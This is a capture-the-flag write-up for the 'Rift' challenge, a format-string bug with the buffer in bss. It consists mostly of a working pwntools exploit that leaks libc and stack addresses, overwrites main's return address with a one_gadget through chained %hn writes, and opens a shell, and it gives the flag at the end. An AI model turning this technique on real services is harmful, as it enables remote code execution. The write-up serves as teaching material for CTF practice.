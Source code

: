 # Rift

# Description
![](./description.png)

This was a format-string challenge with the buffer in the bss instead of the stack.<br>
Since our input is not in the stack, we can't place pointers on the stack to acheive an arbitrary write,<br>
but we can still use dangeling pointers on the stack :)<br>
TL;DR: we need to use a stack pointer to write and address on the stack, than use that address for an arbitrary write.<br>

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rift_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.28.so")

context.binary = exe


def conn():
    r = remote("tamuctf.com", 443, ssl=True, sni="rift")
    return r


def main():
    r = conn()
    one_gadget = 0x4497f

    r.sendline(b"%1$p")
    libc.address = int(r.recvline().strip(),16) - 0x1bc8d0
    one_gadget += libc.address
    log.info(f"Libc address : {hex(libc.address)}")

    r.sendline(b"%8$p")
    stack = int(r.recvline().strip(),16) - 0x8 + 0x10
    log.info(f"stack address : {hex(stack)}")

    # overwrite the last 2 bytes of a stack address to point to main return address
    short = stack & 0xffff
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of main return address (libc_start_main+0x--) to point to one_gadget
    short = one_gadget & 0xffff
    payload = f'%{short}c%39$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of a stack address to point to main return address + 2
    short = (stack + 2) & 0xffff
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the second last 2 bytes of main return address (libc_start_main+0x--) to point to one_gadget
    short = (one_gadget & 0xffff0000) >> 16
    payload = f'%{short}c%39$hn'
    r.sendline(payload)
    # overwrite the last 2 bytes of a stack address to point to always_true address
    short = (stack & 0xffff) - 0x1c
    payload = f'%{short}c%13$hn'
    r.sendline(payload)
    # overwrite the always_true variable with 0 to break out of the while loop and return to main, then to one_gadget
    payload = f'%39$n'
    r.sendline(payload)

    # main will exit and instead of returning to __libc_start_main, it will return to one_gadget 
    r.interactive()


if __name__ == "__main__":
    main()
```
# Flag

gigem{ropping_in_style}
